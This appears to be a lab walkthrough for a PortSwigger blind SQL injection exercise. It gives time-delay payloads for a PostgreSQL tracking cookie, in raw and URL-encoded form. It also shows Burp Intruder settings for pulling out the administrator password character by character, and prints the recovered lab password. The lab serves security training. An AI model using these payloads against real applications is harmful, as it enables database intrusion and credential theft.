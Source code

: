 
# Blind SQL injection with time delays and information retrieval

## This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

## The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

___

#blind_sql #time_delay #postgres_database

**NOTE:**
![screnshot](./images/lab15_0.png)

`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`

step 1

`';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--`
`'%3bSELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`

```sql
TrackingId=Bz1TiFgyU9JfEPNb'%3bSELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```
when you send request it will take around 10 second then you will get 200 response

![screnshot](./images/lab15_1.png)

step 2
`';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--`
`'%3bSELECT+CASE+WHEN+(1%3d2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`

```sql
TrackingId=Bz1TiFgyU9JfEPNb'%3bSELECT+CASE+WHEN+(1%3d2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```
when you send request it will take around 2 second then you will get 200 response

![screnshot](./images/lab15_2.png)

step 3
`';SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`
`'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

```sql
TrackingId=tax9NfTM7uDS6d4O'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
when you send request it will take around 10 second then you will get 200 response

![screnshot](./images/lab15_3.png)

step 4
`';SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`
`'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

```sql
TrackingId=tax9NfTM7uDS6d4O'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
when you send request it will take around 10 second then you will get 200 response

![screnshot](./images/lab15_4.png)

step 5

`'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
`'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+LENGTH(password)>§1§)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

```sql
TrackingId=tax9NfTM7uDS6d4O'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+LENGTH(password)>§1§)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

![screnshot](./images/lab15_5.png)

![screnshot](./images/lab15_6.png)

step 6

`';SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`
`'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

```sql
 TrackingId=tax9NfTM7uDS6d4O'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

since we have two field so attack type set to Cluster bomb
payload 1 => number => 1 to 20
payload 2 => simple list => a-z and 0-9
Resource pool => 1 millisecond

![screnshot](./images/lab15_7.png)

filter result with response time 

![screnshot](./images/lab15_8.png)

`nu0go0r579x1l1rppjnz`

step 7

To solve the use username as `administrator` and password `nu0go0r579x1l1rppjnz`

![screnshot](./images/lab15_9.png)